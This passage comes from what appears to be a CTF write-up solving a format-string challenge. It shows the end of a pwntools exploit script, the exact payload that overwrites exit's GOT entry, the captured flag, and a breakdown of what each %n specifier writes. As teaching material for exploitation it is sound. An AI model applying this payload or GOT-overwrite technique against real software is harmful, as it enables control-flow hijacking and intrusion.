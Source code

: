 ```python

    # send payload & other random string as "numbers"
    io.sendlineafter(b"here\n", payload)
    io.sendlineafter(b"here\n", b"no <3")

    # flag!
    io.recvlines(2) # skip "your input was" & answer lines
    print(io.recvuntil(b"}").decode())
```

Of course, running it does indeed give you the flag :)

```shell
$ python add_flag.py
Payload: b'%2104c%11$lln%8c%12$hhnaX\x10`\x00\x00\x00\x00\x00Z\x10`\x00\x00\x00\x00\x00'
flag{f0rm47_my_b1n6b0n6_pl5}
```

And there's our flag!

I'm not done writing yet though!
I figured I'd try to reason through what the format string is actually doing, since it looks more like a keyboard smash than anything :)

Here's what each format specifier ends up doing:

- `%2104c` - writes 2104 characters to the string (padded with spaces)
- `%11$lln` - writes 2104 as a `long long` (the `ll` in the format string) to the address located at offset 11, which is the string ``X\x10`\x00\x00\x00\x00\x00``, which when treated as an address is 0x601058 (the GOT address for `exit`)
- `%8c` - writes 8 more characters to the string (again padded with spaces)
- `%12$hhn` - writes 2104 + 8 = 2112 as a `signed char` (i.e. a single byte) to the address 0x60105a (corresponding to the string ``Z\x10`\x00\x00\x00\x00\x00``)

At first I was confused why it was doing two writes, but as it turns out this does in fact get you the right result.
The first write clears all of the upper bits of the GOT entry since 2104 is written as a `long long` (i.e. a 64-bit integer).
The second one is more interesting since it's offset by 2 bytes from the first write.
The conversion to a `signed char` also truncates off the top bits of 2112, meaning that it effectively just writes 64.
Due to the 2 byte offset though, the 64 written is effectively `0x400000`.
This makes it so that the number contained in the GOT address are in fact `0x400838`, just like we intended.

If it helps, here's a visualization of the binary representations of the target value and what gets written with each `%n` format specifier:

```python
>>> for n in [0x400838, 2104, (2112 & 0x7f) << 16]:
...     print(f"{n:0>64b} ({n})")
...
0000000000000000000000000000000000000000010000000000100000111000 (4196408)
0000000000000000000000000000000000000000000000000000100000111000 (2104)
0000000000000000000000000000000000000000010000000000000000000000 (4194304)
```
